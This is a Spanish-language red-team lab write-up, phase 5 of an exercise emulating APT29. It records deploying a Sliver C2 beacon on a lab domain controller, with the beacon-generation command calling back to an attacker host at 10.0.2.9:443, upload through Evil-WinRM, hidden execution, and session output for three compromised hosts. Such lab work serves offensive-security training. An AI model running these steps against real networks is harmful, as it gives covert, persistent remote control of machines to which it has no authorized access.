




# C2 Sliver — Operación DARK GATE
## Fase 5 — Command & Control: Beacon en DC-01
**Operación:** DARK GATE | **Adversario:** APT29 | **Framework:** MITRE ATT&CK v14  
**Operador:** Adrián Camacho | **Fecha:** 17/05/2026


> **Módulo M5 · Ruta: `[crítica]`**
>
> **Objetivo único:** Beacon Sliver en DC-01 con el privilegio obtenido.
>
> **Prerequisito real:** privilegio de cualquier ESC (M2 o M3).
>
> **Habilita:** control interactivo del DC → habilita persistencia (M6).
>
> **TTP:** T1071.001 · T1573.002

---

## FASE 5 — C2 Establishment: Sliver v1.7.3

**Táctica MITRE:** TA0011 — Command and Control  
**Técnicas:** T1071.001 + T1573.002 + T1587.001

### Contexto táctico

Tras comprometer el DC via ESC1 se despliega un beacon Sliver para establecer C2 persistente. DC-01 tiene visibilidad directa hacia Kali (`10.0.2.9`) en la misma red `LabRedTeam` — no se necesita relay.

---

### 5.1 — Listener Sliver activo

```bash
sudo systemctl start sliver
sliver
```

```
jobs
 ID   Name    Protocol   Port
  1   https   tcp        443    ← listener activo
```

---

### 5.2 — Generación del beacon

```
generate beacon \
  --http 10.0.2.9:443 \
  --os windows \
  --arch amd64 \
  --format exe \
  --seconds 60 \
  --jitter 15 \
  --save /tmp/beacon_dc01.exe
```

```
[*] Generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
[*] Build completed in 2m4s
[*] Implant saved to /tmp/beacon_dc01.exe
```

---

### 5.3 — Transferencia y ejecución
> 📸 Captura: 

```powershell
# Evil-WinRM — subir beacon
upload /tmp/beacon_dc01.exe

# Ejecutar en background
Start-Process -FilePath "C:\Users\Administrador.DC-01\Documents\beacon_dc01.exe" -WindowStyle Hidden
```

---

### 5.4 — Beacon conectado
> 📸 Captura: 

```
[*] Beacon 4d1146b0 CLINICAL_CHAIRMAN - 10.0.2.10:62651 (DC-01) - windows/amd64
```

---

### 5.5 — Los tres beacons activos simultáneamente
> 📸 Captura: 

```
beacons

 ID         Name                   Transport   Hostname   Username                  OS             Last Check-In
 be691c17   EASY_PROFIT            http(s)     WKSTN-01   ATACKCORP\backup_svc      windows/amd64  103h59m
 dc797c42   SUDDEN_COMMUNICATION   http(s)     PC-01      thomas                    windows/amd64  47h7m
 4d1146b0   CLINICAL_CHAIRMAN      http(s)     DC-01      ATACKCORP\Administrador   windows/amd64  54s
```

**Tres labs comprometidos simultáneamente desde Sliver:**
- Lab-01: `EASY_PROFIT` → WKSTN-01 (ATACKCORP\backup_svc — DA)
- Lab-02: `SUDDEN_COMMUNICATION` → PC-01 (thomas)
- Lab-03: `CLINICAL_CHAIRMAN` → DC-01 (ATACKCORP\Administrador — DA)

---

### 5.6 — Verificación de sesión
> 📸 Captura: 

```
use 4d1146b0
whoami    → Logon ID: ATACKCORP\Administrador
pwd       → C:\Users\Administrador.DC-01\Documents
```

---

### Resumen Fase 5

```
C2 ESTABLISHMENT — Estado final
════════════════════════════════════════════

BEACON CLINICAL_CHAIRMAN (4d1146b0)
  Host:      DC-01 (10.0.2.10) ✅
  Usuario:   ATACKCORP\Administrador ✅
  Protocolo: HTTPS → Kali:443 ✅
  Check-in:  60s ±15s jitter ✅

TÉCNICAS MITRE:
  T1587.001 → Develop Capabilities (beacon con obfuscation)
  T1105     → Ingress Tool Transfer (upload via Evil-WinRM)
  T1204.002 → User Execution: Start-Process -WindowStyle Hidden
  T1071.001 → C2 via HTTPS
  T1573.002 → Encrypted Channel (Sliver mTLS)
```

**Criterio de éxito Fase 5:** ✅

---

**Siguiente:** [persistence.md](persistence.md) — Fase 6